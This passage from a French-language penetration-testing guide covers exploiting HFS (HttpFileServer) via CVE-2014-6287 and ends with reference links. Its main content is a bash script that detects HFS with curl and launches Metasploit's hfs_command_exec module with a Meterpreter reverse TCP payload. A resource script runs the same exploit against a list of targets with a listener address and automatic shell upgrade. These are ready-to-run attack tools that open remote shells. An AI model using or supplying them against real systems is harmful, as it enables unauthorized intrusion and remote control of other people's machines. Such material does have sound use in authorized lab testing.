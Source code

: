 ## Automatisation et Scripts

### Script d'Exploitation Automatique
```bash
#!/bin/bash
# hfs_auto_exploit.sh

TARGET=$1
LHOST=$2
LPORT=${3:-4444}

if [ $# -lt 2 ]; then
    echo "Usage: $0 <target_ip> <local_ip> [local_port]"
    exit 1
fi

# Vérifier si HFS est présent
if curl -s "http://$TARGET/" | grep -qi "HttpFileServer\|HFS"; then
    echo "[+] HFS détecté sur $TARGET"
    
    # Lancer Metasploit
    msfconsole -q -x "
        use exploit/windows/http/hfs_command_exec;
        set RHOSTS $TARGET;
        set LHOST $LHOST;
        set LPORT $LPORT;
        set payload windows/meterpreter/reverse_tcp;
        exploit;
    "
else
    echo "[-] HFS non détecté sur $TARGET"
fi
```

### Resource Script Metasploit
```bash
# hfs_exploit.rc
use exploit/windows/http/hfs_command_exec
set RHOSTS file:targets.txt
set LHOST 192.168.1.50
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/multi/manage/shell_to_meterpreter
exploit -j -z
```

## Références et Documentation

### CVE et Advisories
- **CVE-2014-6287** : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287
- **HFS Security Advisory** : https://www.rapid7.com/db/modules/exploit/windows/http/hfs_command_exec/
- **Metasploit Module** : https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/hfs_command_exec.rb
